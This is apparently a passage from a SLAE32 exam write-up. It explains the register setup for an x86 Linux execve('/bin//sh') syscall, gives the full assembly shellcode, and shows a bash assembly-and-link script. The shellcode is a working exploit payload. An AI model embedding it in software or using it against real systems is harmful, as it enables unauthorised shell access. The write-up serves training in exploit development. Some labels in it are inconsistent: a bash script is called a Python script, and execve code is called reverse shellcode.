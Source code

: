 We will pass the following arguments :
- EAX : 0xb (execve sys call, 11 in decimal)
- EBX : Pointer to /bin//sh + 0X00000000        
- ECX : Pointer to the address of EBX
- EDX : NULL

To pass the argument /bin/sh, we first converted it in hexadecimal and then reverse it.

**Assembly Code:**

	
	; EXECVE /bin/sh	
	; Push the 0x00000000 on the stack
	xor eax, eax
	push eax
	
	; put the string on the stack
	push 0x68732f2f ; //sh : hs// : 68732f2f	
	push 0x6e69622f ; /bin : nib/ : 6e69622f	
	
	; setup EBX with the value of ESP
	mov ebx, esp

	; set up EDX and push null bytes again
	push eax
	mov edx, esp

	; set up ECX argv address on the first dw and null in second dw
	push ebx 
	; Then move the top of the stack into ECX
	mov ecx, esp

	; EAX
	mov al, 0xb
	int 0x80
	


###  <span style="color:#2d8fb3;"> Compilation </span>

Then we compiled the code with the following python script :

    root@kali:~/Documents/PentesterAcademy/SLAE32-Exam/bindshell# cat ../compile.sh 
    #! /bin/bash

    echo '[+] Assembling with NASM'
    nasm -f elf -o $1.o $1.nasm

    echo '[+] Linking ..'
    ld -m elf_i386 $1.o -o $1

    echo '[+] Done!'

And finally, we launch the netcat tool and then the reverse shellcode.

<img src="/assets/slae32-img/assignment2/assignment2.2.PNG" alt="drawing" style="width:500px;"/>
